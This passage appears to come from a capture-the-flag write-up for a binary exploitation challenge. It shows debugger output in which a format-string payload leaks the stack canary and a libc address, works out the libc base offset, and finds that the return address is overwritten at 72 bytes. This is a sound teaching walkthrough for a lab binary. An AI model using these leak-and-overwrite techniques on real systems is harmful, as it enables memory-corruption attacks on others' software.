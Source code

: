 ```gdb
 
   0x555555555470 <fb+262>    lea    rax, [rbp - 0x50]
   0x555555555474 <fb+266>    mov    edx, 0x5e
   0x555555555479 <fb+271>    mov    rsi, rax
──────────────────────────────────[ STACK ]───────────────────────────────────
00:0000│ rsp 0x7fffffffdf90 —▸ 0x7fffffffe110 ◂— 0x1
01:0008│     0x7fffffffdf98 ◂— 0xa790000000000
02:0010│     0x7fffffffdfa0 ◂— '%21$p.%27$p\n'
03:0018│     0x7fffffffdfa8 ◂— 0xa702437 /* '7$p\n' */
04:0020│     0x7fffffffdfb0 ◂— 0xa00
05:0028│     0x7fffffffdfb8 ◂— 0x1036640
06:0030│     0x7fffffffdfc0 ◂— 0x0
07:0038│     0x7fffffffdfc8 ◂— 0x0
────────────────────────────────[ BACKTRACE ]─────────────────────────────────
 ► f 0   0x55555555545f fb+245
   f 1   0x555555555552 main+53
   f 2   0x7ffff7a03c87 __libc_start_main+231
──────────────────────────────────────────────────────────────────────────────
pwndbg>
```

We see the 2 values are:

* `0xce6ad7f539fffa00`
* `0x7ffff7a03c87`

The first one is indeed the `canary`.

```gdb
pwndbg> canary
AT_RANDOM = 0x7fffffffe3d9 # points to (not masked) global canary value
Canary    = 0xce6ad7f539fffa00 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│  0x7fffffffd8f8 ◂— 0xce6ad7f539fffa00
```

The second one is also from the `libc` section.

```gdb
pwndbg> vmmap 0x7ffff7a03c87
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000      0 /home/w3th4nds/github/pwn/[Medium] Claw Machine/htb/glibc/libc.so.6 +0x21c87
```

To find the offset from `libc` base, we simply subtract it (or take the `+0x21c87` value given).

```
pwndbg> p/x 0x7ffff7a03c87-0x7ffff79e2000
$1 = 0x21c87
```

Now that we have the `canary` value and the `libc base` address, the only thing left is to find at which offset we overwrite the return address and with what address to overwrite it. As mentioned before, the buffer is 64 bytes long, so after 8 bytes we overwrite the previous frame pointer, meaning that we start overwriting the `return address` at `72` bytes.
